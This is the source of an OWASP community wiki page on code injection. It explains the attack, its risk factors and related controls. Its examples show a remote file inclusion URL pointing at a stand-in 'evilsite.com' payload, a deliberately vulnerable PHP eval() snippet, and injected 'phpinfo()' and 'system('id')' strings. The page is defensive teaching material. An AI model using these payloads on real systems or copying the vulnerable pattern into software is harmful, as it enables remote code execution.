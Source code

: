 ```yaml
---

layout: col-sidebar
title: Code Injection
author: 
contributors: 
permalink: /attacks/Code_Injection
tags: attack, Code Injection
auto-migrated: 1

---
```


## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

  - allowed characters (standard regular expressions classes or custom)
  - data format
  - amount of expected data

Code Injection differs from [Command
Injection](Command_Injection "wikilink") in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, he is only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

  - These types of vulnerabilities can range from very hard to find, to
    easy to find
  - If found, are usually moderately hard to exploit, depending of
    scenario
  - If successfully exploited, impact could cover loss of
    confidentiality, loss of integrity, loss of availability, and/or
    loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
include() function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the include() function.

<http://testsite.com/index.php?page=contact.php>

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute his PHP code using the following request:

<http://testsite.com/?page=http://evilsite.com/evilcode.php>

**Example 2**

When a developer uses the PHP eval() function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the eval() function:

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("\$myvar = \$x;");

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example:

    /index.php?arg=1; phpinfo()

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example:

    /index.php?arg=1; system('id')

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:
    Internet_attacker](:Category:_Internet_attacker "wikilink")
  - [Internal_software_developer](Internal_software_developer "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Command Injection](Command_Injection "wikilink")
  - [SQL Injection](SQL_Injection "wikilink")
  - [LDAP injection](LDAP_injection "wikilink")
  - [SSI injection](Server-Side_Includes_%28SSI%29_Injection "wikilink")
  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category: Input Validation
    Vulnerability](:Category:_Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input Validation](Input_Validation "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

  - [CWE-77: Command
    Injection](http://cwe.mitre.org/data/definitions/77.html)
  - [CWE-78: OS Command
    Injection](http://cwe.mitre.org/data/definitions/78.html)
  - [CWE-89: SQL
    Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:Injection
Attack](Category:Injection_Attack "wikilink")
